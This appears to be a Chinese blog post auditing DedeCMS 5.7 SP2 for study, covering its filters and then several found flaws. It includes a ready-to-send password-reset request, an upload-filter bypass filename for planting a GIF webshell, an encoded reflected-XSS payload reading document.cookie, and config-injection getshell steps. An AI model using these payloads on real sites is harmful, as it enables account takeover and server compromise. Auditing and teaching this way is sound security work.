# Dedecms SP2 前后台审计


第三场 PHP 审计学习 Starting
# 全局分析

版本：`5.7 SP2`
项目结构

```
/install     安装程序目录，安装完后可删除[安装时必须有可写入权限]
/dede        默认后台管理目录（可任意改名）
/include     类库文件目录
/plus        附助程序目录
/member      会员目录
/images      系统默认模板图片存放目录
/uploads     默认上传目录(必须可写入)
/a           默认HTML文件存放目录(必须可写入)
/templets    系统默认内核模板目录
/data        系统缓存或其它可写入数据存放目录(必须可写入)
/special     专题目录(生成一次专题后可以删除special/index.php，必须可写入)
```
主要关注四点，路由机制、全局过滤、文件上传、数据库层，模板引擎可能会产生 SSTI，但暂不理会
先看主页代码，data/common.inc.php 是数据库配置文件，如果不存在则直接进入安装页面

```
#dedecms/index.php
if(!file_exists(dirname(__FILE__).'/data/common.inc.php'))
{
    header('Location:install/index.php');
    //跳转到安装目录主页
    exit();
}
//自动生成HTML版
if(isset($_GET['upcache']) || !file_exists('index.html'))
{
    require_once (dirname(__FILE__) . "/include/common.inc.php");
    //包含程序初始化文件
	...
    if ($row['showmod'] == 1){} else {}
}
else{
    header('HTTP/1.1 301 Moved Permanently');
    header('Location:index.html');}
?>
```
往下生成模板，引用了 include/common.inc.php，我们跟进
这类库文件一般用做程序的初始化，开头做一些系统环境变量和路径定义

```
define('DEDE_ENVIRONMENT', 'production');
//设置环境为生产环境，并根据环境设置错误报告级别
if ( DEDE_ENVIRONMENT == 'production' )
{
    error_reporting(E_ALL || ~E_NOTICE);
} else {
    error_reporting(E_ALL);
}
define('DEDEINC', str_replace("\\", '/', dirname(__FILE__) ) );
define();*7
// 定义目录路径常量
define('DEBUG_LEVEL', FALSE);
// 调试开关
if (version_compare(PHP_VERSION, '5.3.0', '<'))  // 解决PHP 5.3以下版本的兼容问题
{}

if (version_compare(PHP_VERSION, '5.4.0', '>='))
//兼容PHP 5.4及以上版本的会话函数
{
    if (!function_exists('session_register'))
    {
        function session_register(){}
        function session_is_registered($key){}
        function session_unregister($key){}
    }
}
if(function_exists('mb_substr')) $cfg_is_mb = TRUE;
if(function_exists('iconv_substr')) $cfg_is_iconv = TRUE;
```

然后对外部传参做检测和注册变量，这段检测过滤可以深入分析一下

```
function _RunMagicQuotes(&$svar)
{
    if(!get_magic_quotes_gpc())
    {
        if( is_array($svar) ){} else {$svar = addslashes($svar);}
        //过滤区
    }
    return $svar;
}
if (!defined('DEDEREQUEST'))
{
    //检查和注册外部提交的变量
    function CheckRequest(&$val) {
        if (is_array($val)) {
        } else
        {if( strlen($val)>0 && preg_match('#^(cfg_|GLOBALS|_GET|_POST|_COOKIE|_SESSION)#',$val)  ){
            }
        }
        //黑名单过滤关键词
    }
    CheckRequest($_REQUEST);
	CheckRequest($_COOKIE);
	//对全局变量 REQUEST/COOKIE 进行初步过滤

    foreach(Array('_GET','_POST','_COOKIE') as $_request)
    {foreach($$_request as $_k => $_v){}}
    //对全局变量 GET/POST/COOKIE 进行过滤和转义
}
```

include/common.inc.php#_RunMagicQuotes 方法实现了一个 foreach 循环，确认数组内每个值都不匹配 cfg_、GLOBALS 等关键词，应当是为了防止变量污染，同时使用 addslashes 转义值

```
function _RunMagicQuotes(&$svar)
{
    if(!get_magic_quotes_gpc())
    {
        if( is_array($svar) )
        {
            foreach($svar as $_k => $_v) $svar[$_k] = _RunMagicQuotes($_v);
            //依次取出外部输入数组中的每个值，循环迭代再传入本方法中
        }
        else
        {
            if( strlen($svar)>0 && preg_match('#^(cfg_|GLOBALS|_GET|_POST|_COOKIE|_SESSION)#',$svar) )
            {
            	//黑名单校验
                exit('Request var not allow!');
            }
            $svar = addslashes($svar);
        	//再进行转义
        }
    }
    return $svar;
}
```

include/common.inc.php#CheckRequest 也是在递归检测关键词，避免出现非法变量名

```
function CheckRequest(&$val) {
    if (is_array($val)) {
        foreach ($val as $_k=>$_v) {
            if($_k == 'nvarname') continue;
            // 如果键名为nvarname就不校验
            CheckRequest($_k);
            CheckRequest($val[$_k]);
        }
    } else
    {
        if( strlen($val)>0 && preg_match('#^(cfg_|GLOBALS|_GET|_POST|_COOKIE|_SESSION)#',$val)  )
        {
        	//黑名单校验
            exit('Request var not allow!');
        }
    }
}
```

虽然这里过滤范围仅为 GET/POST/COOKIE/REQUEST，但在后续调试中果然发现 $_SERVER 也是有被处理的，下图为获取 IP 的功能方法 include/helpers/util.helper.php#GetIP

继续往下就是定义一些配置文件、功能路径、设定缓存等等，程序初始化的工作不细看了
这里 `dedecms`也说自己是 MVC 框架 A.A


include/dedesqlite.class.php 是 dedecms 的核心数据库类，主要关注 SQL 语句过滤部分，一个轻量级WAF
```
if (!function_exists('CheckSql'))
{
    function CheckSql($db_string,$querytype='select')
    {
        //如果是普通查询语句，直接过滤一些特殊语法
        if($querytype=='select')
        {
            $notallow1 = "[^0-9a-z@\._-]{1,}(union|sleep|benchmark|load_file|outfile)[^0-9a-z@\.-]{1,}";

            //$notallow2 = "--|/\*";
            if(preg_match("/".$notallow1."/i", $db_string))
            {
                fputs(fopen($log_file,'a+'),"$userIP||$getUrl||$db_string||SelectBreak\r\n");
                exit("<font size='5' color='red'>Safe Alert: Request Error step 1 !</font>");
            }
        }

        //完整的SQL检查
        while (TRUE)
        {	
        	...
        $clean .= substr($db_string, $old_pos);
        $clean = trim(strtolower(preg_replace(array('~\s+~s' ), array(' '), $clean)));
		
		//黑名单校验
        if (strpos($clean, '@') !== FALSE  OR strpos($clean,'char(')!== FALSE OR strpos($clean,'"')!== FALSE
        OR strpos($clean,'$s$$s$')!== FALSE){}
        //老版本的Mysql并不支持union，常用的程序里也不使用union，但是一些黑客使用它，所以检查它
        if (strpos($clean, 'union') !== FALSE && preg_match('~(^|[^a-z])union($|[^[a-z])~s', $clean) != 0){}
        //发布版本的程序可能比较少包括--,#这样的注释，但是黑客经常使用它们
        elseif (strpos($clean, '/*') > 2 || strpos($clean, '--') !== FALSE || strpos($clean, '#') !== FALSE){}
        //这些函数不会被使用，但是黑客会用它来操作文件，down掉数据库
        elseif (strpos($clean, 'sleep') !== FALSE && preg_match('~(^|[^a-z])sleep($|[^[a-z])~s', $clean) != 0){}
        elseif (strpos($clean, 'benchmark') !== FALSE && preg_match('~(^|[^a-z])benchmark($|[^[a-z])~s', $clean) != 0){}
        elseif (strpos($clean, 'load_file') !== FALSE && preg_match('~(^|[^a-z])load_file($|[^[a-z])~s', $clean) != 0){}
        elseif (strpos($clean, 'into outfile') !== FALSE && preg_match('~(^|[^a-z])into\s+outfile($|[^[a-z])~s', $clean) != 0){}
        //老版本的MYSQL不支持子查询，我们的程序里可能也用得少，但是黑客可以使用它来查询数据库敏感信息
        elseif (preg_match('~\([^)]*?select~s', $clean) != 0){}
        if (!empty($fail)){}
        else{}
    }
}

```
关键词黑名单，如果在黑名单内则写入日志记录中，停止程序并返回 Safe Alert
```
$notallow1 = "[^0-9a-z@\._-]{1,}(union|sleep|benchmark|load_file|outfile)[^0-9a-z@\.-]{1,}";

if(preg_match("/".$notallow1."/i", $db_string))
{
	fputs(fopen($log_file,'a+'),"$userIP||$getUrl||$db_string||SelectBreak\r\n");
	exit("<font size='5' color='red'>Safe Alert: Request Error step 1 !</font>");
}
```
往下再进行一次关键词过滤，主要包括单引号、union、`/*`、sleep 等

接下来看文件上传机制，include/uploadsafe.inc.php，这是一个安全过滤文件
先定义一串黑名单

```
$cfg_not_allowall = "php|pl|cgi|asp|aspx|jsp|php3|shtm|shtml";
```
如果上传使用的是 ckeditor 编辑器，则将 $_FILES['upload'] 变量名复制为 $_FILES['imgfile']，并且删除被复制的文件上传变量

```
if ($GLOBALS['cfg_html_editor']=='ckeditor' && isset($_FILES['upload']))
{
    $_FILES['imgfile'] = $_FILES['upload'];
    $CKUpload = TRUE;
    unset($_FILES['upload']);
}
```

检查字段名是否以 `cfg_` 或 `GLOBALS` 开头，如果是则终止程序；
如果字段 name 没被定义，即 name 无值，并且后缀名与黑名单列表匹配上了，或 name 压根没有点，即无后缀名，则进入 if 函数体内。

```
if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
{
	//黑名单校验
    exit('Request var not allow for uploadsafe!');
}
$$_key = $_FILES[$_key]['tmp_name'];
${$_key.'_name'} = $_FILES[$_key]['name'];
${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    //DEDEADMIN 常量在 dede/config.php 下被定义，这大约是一个后台配置文件，用于初始化配置、用户登录校验、XSS 过滤、缓存管理等。所以如果是后台管理上传文件，则不用受黑名单限制，如果是前台上传，检测到直接终止程序
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
```

这里都是使用黑名单校验，且黑名单不齐全，如 phtml 等后缀名，或非法绕过方式 p*hp 这类就没做到匹配，过滤机制较弱
最后白名单文件类型校验，判断是否是图片，同时还使用 `getimagesize`读取图片大小进行双重校验，如果没大小即 False，则终止


运行机制与路由方面，dedecms 显然是一个多入口的框架，即通过直接访问对应 php 文件来调用服务，核心业务区应该就是 member、dede，即会员管理和后台管理

# 源码审计
## 会员任意密码重置
漏洞点在前台重置密码 member/resetpassword.php
程序设计上分为三个阶段，分别用 if-elseif 隔开
1. **getpwd**：选择验证方式（邮箱/安全问题）
2. **safequestion**：安全问题验证
3. **getpasswd**：密码修改
第一块 getpwd 判定是验证码找回还是问题校验，验证码直接发送，问题校验跳转进第二块 safequestion，如果 safequestion 问题校验正确则进入第三块 getpasswd 修改密码
```
elseif($dopost == "getpwd")
{}
else if($dopost == "safequestion")
{}
else if($dopost == "getpasswd")
{//修改密码}
```
逐一分析逻辑，先说 getpwd，它先验证输入验证码是否正确，判断外部传参 mail、userid 是否为空，再检查 mail 和 userid 格式是否非法，member/inc/inc_pwd_functions.php#member 类方法还通过 mail 和 userid 双重属性检测来判断用户是否存在

```
elseif($dopost == "getpwd")
{
    if(!isset($vdcode)) $vdcode = '';
    $svali = GetCkVdValue();
    if(strtolower($vdcode) != $svali || $svali==''){}
    //校验验证码是否正确

    if(empty($mail) && empty($userid)){} 
    else if (!preg_match("#(.*)@(.*)\.(.*)#", $mail)){} 
    else if (CheckUserID($userid, '', false) != 'ok'){}
    //验证邮箱，用户名，如果不正确则终止程序
    $member = member($mail, $userid);
```

如果 type == 1 则直接进 member/inc/inc_pwd_functions.php#sn 发送验证码，为 2 则渲染 templets/resetpassword3.htm 回前端，即 getpwd -> safequestion

```
if($type == 1)
{  
    if($cfg_sendmail_bysmtp == "Y")
    {	sn($member['mid'],$userid,$member['email']);
    }else{}
    //判断系统邮件服务是否开启
    //邮件服务暂未开启退出程序

} else if ($type == 2)
{
	//以安全问题取回密码
    if($member['safequestion'] == 0){}
    //为0则表明没设置安全问题，终止程序
    require_once(dirname(__FILE__)."/templets/resetpassword3.htm");
}
exit();
```

跟进 `#sn`，传入指定的 mid、userid、mail 来发送邮件，如果十分钟内发送过一次，则重定向至登录页面，否则 member/inc/inc_pwd_functions.php#newmail 发送邮件

```
function sn($mid,$userid,$mailto, $send = 'Y')
{
    global $db;
    $tptim= (60*10);
    $dtime = time();
    $sql = "SELECT * FROM #@__pwd_tmp WHERE mid = '$mid'";
    $row = $db->GetOne($sql);
    if(!is_array($row))
    {
        //发送新邮件；
        newmail($mid,$userid,$mailto,'INSERT',$send);
    }
    //10分钟后可以再次发送新验证码；
    elseif($dtime - $tptim > $row['mailtime'])
    {
        newmail($mid,$userid,$mailto,'UPDATE',$send);
    }
    //重新发送新的验证码确认邮件；
    else
    {
        return ShowMsg('对不起，请10分钟后再重新申请', 'login.php');
    }
}
```

继续进 #newmail，如果 send 为 Y 直接发送邮件，如果为 N 则跳转到修改页， #sn 是控制 1-3 块跳转逻辑的关键函数，同时也是漏洞的关键点

getpwd 内通过 member 邮箱用户名一起检验，没有可利用点，但发现能够直接未授权进到 safequestion，而不用进行初始选择，外部传参都可控，传入 id 再通过 id 查出来的 sql 信息交给 `#sn`做验证码操作，根本不受不知道用户名密码的影响，主要是 safequestion 逻辑存在漏洞
用户创建时如果没设置安全问题，那在数据库中存储的字段就为空，为空程序就赋值为 ""，这就是得双等于弱比较能够被绕过，任何没设置安全问题的账号都存在这个风险

```
else if($dopost == "safequestion")
{
    $mid = preg_replace("#[^0-9]#", "", $id);
    $sql = "SELECT safequestion,safeanswer,userid,email FROM #@__member WHERE mid = '$mid'";
    $row = $db->GetOne($sql);
    if(empty($safequestion)) $safequestion = '';
    if(empty($safeanswer)) $safeanswer = '';
    if($row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer)
    //这里存在弱等于直接绕过
    {
        sn($mid, $row['userid'], $row['email'], 'N');
        exit();
    }
    else
    {
        ShowMsg("对不起，您的安全问题或答案回答错误","-1");
        exit();
    }
}
```

然后跳转 sn，再跳转 newmail，它会生成一串随机数并进行 md5 加密，在该 dedecms 中叫临时密码，然后存入 `dede_pwd_tmp`表中，最后将 id 及临时密码作为 url 返回

最后在 getpasswd 修改密码中，比较外部传入的临时密码加密后是否与临时密码表中存储的一致，一致则随意修改密码

**总结利用链：**
对未设置安全问题的账户，通过弱比较绕过验证，通过验证后调用 sn() -> newmail() 生成重置链接，最后直接重置密码。漏洞影响大，我们可以重置任意未设置安全问题的用户，包括管理员，通过枚举 mid，能够批量重置用户密码

```
POST /member/resetpassword.php HTTP/1.1
Host: 192.168.43.169:8089
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

dopost=safequestion&id=1&userid=test1&safequestion=00&safeanswer=0&vdcode=embh&type=2
```

直接重置管理员密码，成功

当然重置 dede_member 表的 admin 用户只是占位，防止用户非法注册管理员用户名，并不能登录管理员账号，但能登录普通会员账号
**漏洞修复：**
getpwd -> safequestion -> getpasswd 没有会话传递机制，能够未授权直接调用后俩个是很直观的问题，会话传递不好写，但是这个洞堵住这个弱比较绕过就不存在了
```
if($row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer)  
{  
    sn($mid, $row['userid'], $row['email'], 'N');  
    exit();  
}
```
修复为


## 前台文件上传
在文章、商品、分类信息等文章发布处，存在文件上传接口服务

定位源码位置 include/dialog/select_images_post.php，在文件初始化时依次会执行 include/dialog/config.php -> include/common.inc.php -> include/uploadsafe.inc.php，对上传的 $FILES 进行全局过滤，过滤在全局分析中有分析过，做了一个黑名单过滤和文件类型校验

业务代码也做了一层过滤，首先是将文件名中 `\r\n\*\%`等字符删除；然后进行正则匹配，这里匹配 `.jpg、.gif、.png`，如果文件名中存在则直接放行，还有文件类型校验，使用 array 数组比较的方式校验

再往下，就设置服务端文件名直接上传文件了，可以看到这里文件名是随机的，文件后缀名是取最后一个 `.` 后面的，比如上传 .jpg.php，这里直接就取`.php`了。
上传一个 .jpg.php，上传到服务器的就是 $filename.php

假如上传一个 1.jpg.p%hp，在最开始初始化文件 include/uploadsafe.inc.php 执行时，会绕过黑名单过滤，不与黑名单内字符匹配；然后在业务代码执行时，先将特殊字符删去，即变为 1.jpg.php；文件类型比较直接 MIMI 绕过，程序会将最后一个 . 后的后缀与生成的随机文件名拼接，如 xxx.php，最后写入服务端中


查看上传目录，成功上传了，接下来要解决上传路径的问题，根据代码，上传后经过一段 SQL 更新后会直接将文件结果返回出来的，框框处将 $fiileurl 拼接并通过 exit 结束程序并返回拼接内容

但是这里并没有返回，仅仅一个 200 的请求头，调试检查哪里出了问题

这是两个公共功能函数，ImageResize 检查图片大小，WaterImg 写入图片水印。一路追踪函数，include/helpers/image.helper.php#WaterImg -> include/image.class.php#watermark -> include/image.class.php#watermark_gd，最终在 235 行直接断了，程序直接终止，这里技术有限，由于 PHP 内置函数是 C 写好封装的，没法再深入调试，只能推断一下：
当我上传完整 JPG 图片并绕过写入 PHP 时走到这个位置，`$imageheight、$imagewidth`均为 150，完全没问题会继续执行下一行；上传仅有 PHP 代码时，同样在这个位置 `$imageheight:3387、$imagewidth:15370`断了，可能是服务器配置的内存不足？导致这里出错

include/image.class.php 在 192 行进入这层 IF，才会执行 imagecreatetruecolor，干脆直接不让他进入这层，跳过水印步骤

include/helpers/image.helper.php 实例化了 image

当上传的是 GIF 图片马时，内容中会带有 NETSCAPE2.0，此时 animategif 为 1，即可跳过 watermark_gd 的 if

这里 GIF 图片不能过大，不然也会无回显


PS. 当我尝试通过 JPG 上传时同样也出了问题...写入的内容被服务端经过了不知名操作，变成了乱码，所以只成功了 GIF 格式上传 GetShell

## 后台反射型XSS
后台登录检测，先进行验证码检验，如果不正确则执行 ShowMsg


include/common.func.php#ShowMsg 将跳转 `<a href=''></a>`拼接并返回给前端


前端经过渲染最后达到以下跳转的效果，默认会直接跳转，如果没跳转点击可以触发 `<a herf=''>`

在登录成功的代码中，发现跳转参数 `$gotopage`，通过全局查找并没有发现该参数被定义，dedecms 参数并不直接在业务代码中使用 `$_GET、$_POST`接收，而是在公共文件中初始化时便注册，这有可能就是一个外部传参可控变量


手动追踪数据流，去看看前端模板 html 中怎么定义 $gotopage，找到模板位置


在前端后台主页模板中发现这是一个隐藏字段，是可控的，但被 RemoveXSS 过滤了

**RemoveXSS微型WAF组件 Bypass**
include/helpers/filter.helper.php#RemoveXSS 是一个针对 XSS 的输入过滤函数


全部代码如下
```
if ( ! function_exists('RemoveXSS'))
{
    function RemoveXSS($val) {
       $val = preg_replace('/([\x00-\x08,\x0b-\x0c,\x0e-\x19])/', '', $val);
       $search = 'abcdefghijklmnopqrstuvwxyz';
       $search .= 'ABCDEFGHIJKLMNOPQRSTUVWXYZ';
       $search .= '1234567890!@#$%^&*()';
       $search .= '~`";:?+/={}[]-_|\'\\';
       for ($i = 0; $i < strlen($search); $i++) {
          $val = preg_replace('/(&#[xX]0{0,8}'.dechex(ord($search[$i])).';?)/i', $search[$i], $val); // with a ;
          $val = preg_replace('/(&#0{0,8}'.ord($search[$i]).';?)/', $search[$i], $val); // with a ;
       }

       $ra1 = array('javascript', 'vbscript', 'expression', 'applet', 'meta', 'xml', 'blink', 'link', 'style', 'script', 'embed', 'object', 'iframe', 'frame', 'frameset', 'ilayer', 'layer', 'bgsound', 'title', 'base');
       $ra2 = array('onabort', 'onactivate', 'onafterprint', 'onafterupdate', 'onbeforeactivate', 'onbeforecopy', 'onbeforecut', 'onbeforedeactivate', 'onbeforeeditfocus', 'onbeforepaste', 'onbeforeprint', 'onbeforeunload', 'onbeforeupdate', 'onblur', 'onbounce', 'oncellchange', 'onchange', 'onclick', 'oncontextmenu', 'oncontrolselect', 'oncopy', 'oncut', 'ondataavailable', 'ondatasetchanged', 'ondatasetcomplete', 'ondblclick', 'ondeactivate', 'ondrag', 'ondragend', 'ondragenter', 'ondragleave', 'ondragover', 'ondragstart', 'ondrop', 'onerror', 'onerrorupdate', 'onfilterchange', 'onfinish', 'onfocus', 'onfocusin', 'onfocusout', 'onhelp', 'onkeydown', 'onkeypress', 'onkeyup', 'onlayoutcomplete', 'onload', 'onlosecapture', 'onmousedown', 'onmouseenter', 'onmouseleave', 'onmousemove', 'onmouseout', 'onmouseover', 'onmouseup', 'onmousewheel', 'onmove', 'onmoveend', 'onmovestart', 'onpaste', 'onpropertychange', 'onreadystatechange', 'onreset', 'onresize', 'onresizeend', 'onresizestart', 'onrowenter', 'onrowexit', 'onrowsdelete', 'onrowsinserted', 'onscroll', 'onselect', 'onselectionchange', 'onselectstart', 'onstart', 'onstop', 'onsubmit', 'onunload');
       $ra = array_merge($ra1, $ra2);

       $found = true; 
       while ($found == true) {
          $val_before = $val;
          for ($i = 0; $i < sizeof($ra); $i++) {
             $pattern = '/';
             for ($j = 0; $j < strlen($ra[$i]); $j++) {
                if ($j > 0) {
                   $pattern .= '(';
                   $pattern .= '(&#[xX]0{0,8}([9ab]);)';
                   $pattern .= '|';
                   $pattern .= '|(&#0{0,8}([9|10|13]);)';
                   $pattern .= ')*';
                }
                $pattern .= $ra[$i][$j];
             }
             $pattern .= '/i';
             $replacement = substr($ra[$i], 0, 2).'<x>'.substr($ra[$i], 2);
             $val = preg_replace($pattern, $replacement, $val); 
             if ($val_before == $val) {
                $found = false;
             }
          }
       }
       return $val;
    }
}
```

先对内容进行一次清理，删除除 \t \n \r 外控制符，然后解码十六进制、十进制 HTML 实体编码
```
$val = preg_replace('/([\x00-\x08,\x0b-\x0c,\x0e-\x19])/', '', $val);
$search = 'abcdefghijklmnopqrstuvwxyz';
$search .= 'ABCDEFGHIJKLMNOPQRSTUVWXYZ';
$search .= '1234567890!@#$%^&*()';
$search .= '~`";:?+/={}[]-_|\'\\';
for ($i = 0; $i < strlen($search); $i++) {
  $val = preg_replace('/(&#[xX]0{0,8}'.dechex(ord($search[$i])).';?)/i', $search[$i], $val); // with a ;
  $val = preg_replace('/(&#0{0,8}'.ord($search[$i]).';?)/', $search[$i], $val); // with a ;
       }
```

黑名单过滤，写了一个正则模式，就是给 `javascript`这类字符每个之间都插入匹配，防止使用恶意字符绕过，假如匹配到，则会将 `javascript`替换为类似 `ja<x>vasc<x>ript`
```
$ra1 = array('javascript', 'vbscript', 'expression', 'applet', 'meta', 'xml', 'blink', 'link', 'style', 'script', 'embed', 'object', 'iframe', 'frame', 'frameset', 'ilayer', 'layer', 'bgsound', 'title', 'base');
       $ra2 = array('onabort', 'onactivate', 'onafterprint', 'onafterupdate', 'onbeforeactivate', 'onbeforecopy', 'onbeforecut', 'onbeforedeactivate', 'onbeforeeditfocus', 'onbeforepaste', 'onbeforeprint', 'onbeforeunload', 'onbeforeupdate', 'onblur', 'onbounce', 'oncellchange', 'onchange', 'onclick', 'oncontextmenu', 'oncontrolselect', 'oncopy', 'oncut', 'ondataavailable', 'ondatasetchanged', 'ondatasetcomplete', 'ondblclick', 'ondeactivate', 'ondrag', 'ondragend', 'ondragenter', 'ondragleave', 'ondragover', 'ondragstart', 'ondrop', 'onerror', 'onerrorupdate', 'onfilterchange', 'onfinish', 'onfocus', 'onfocusin', 'onfocusout', 'onhelp', 'onkeydown', 'onkeypress', 'onkeyup', 'onlayoutcomplete', 'onload', 'onlosecapture', 'onmousedown', 'onmouseenter', 'onmouseleave', 'onmousemove', 'onmouseout', 'onmouseover', 'onmouseup', 'onmousewheel', 'onmove', 'onmoveend', 'onmovestart', 'onpaste', 'onpropertychange', 'onreadystatechange', 'onreset', 'onresize', 'onresizeend', 'onresizestart', 'onrowenter', 'onrowexit', 'onrowsdelete', 'onrowsinserted', 'onscroll', 'onselect', 'onselectionchange', 'onselectstart', 'onstart', 'onstop', 'onsubmit', 'onunload');
       $ra = array_merge($ra1, $ra2);

       $found = true; 
       while ($found == true) {
          $val_before = $val;
          for ($i = 0; $i < sizeof($ra); $i++) {
             $pattern = '/';
             for ($j = 0; $j < strlen($ra[$i]); $j++) {
                if ($j > 0) {
                   $pattern .= '(';
                   $pattern .= '(&#[xX]0{0,8}([9ab]);)';
                   $pattern .= '|';
                   $pattern .= '|(&#0{0,8}([9|10|13]);)';
                   $pattern .= ')*';
                }
                $pattern .= $ra[$i][$j];
             }
             $pattern .= '/i';
             $replacement = substr($ra[$i], 0, 2).'<x>'.substr($ra[$i], 2);
             $val = preg_replace($pattern, $replacement, $val); 
             if ($val_before == $val) {
                $found = false;
             }
          }
       }
       return $val;
```
这里结合前端浏览器特性，是存在绕过可能的，如果我们输入的是一个 HTML 编码的值，会自动被解码一次并渲染回显来，这并不会导致前端触发 XSS，不然很多 XSS 都可以直接通杀，但假如该值被作为一个参数传到后端，浏览器默认会将解码后的值发送过去，而这里刚好吻合了所有条件
我们传入二次 HTML 编码加 URL 编码后的 Payload，经过一次 URL 编码和 HTML 编码，并没有被还原回初始 Payload，绕过黑名单过滤，再接着被浏览器经过一次 HTML 解码后作为外部传参给
```
/dede/login.php?gotopage=javascrip%26%2338%3B%26%2335%3B%26%2349%3B%26%2349%3B%26%2354%3B%26%2359%3B:alert(document.cookie);
```
登录后点击跳转



## 后台文件上传
在后台核心 -> 文件式管理器存在文件上传接口，由于缺少权限限制，后台权限过大导致直接可以上传任意文件

经过前面的审计，已经很熟悉 uploadsafe.inc.php 过滤中虽然有黑名单，但是如果是 `defined('DEDEADMIN')`即进入后台之后，就放行

除此之外没有任何过滤点一路直通 move_uploaded_file，随便上传



## 后台系统设置getshell
DedeCMS 后台配置通过 config.cache.inc.php 控制

这是一个定义变量的文件，程序在运行时再读取这些变量

程序在修改配置文件内容时，只有公共文件 common.inc.php 做了一个 addslashes 转义，没有其他过滤，会分辨 `$row['type']`是否为 number，是则不加引号，我们只要找类型为数字的写入一句话木马即可 GetShell





PS. 尽管每个漏洞技术点都不深，但是真的去独立审计的话也找不到这些洞，看那些业务逻辑都眼花缭乱了...即“练的太少”


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1-dedecms/  

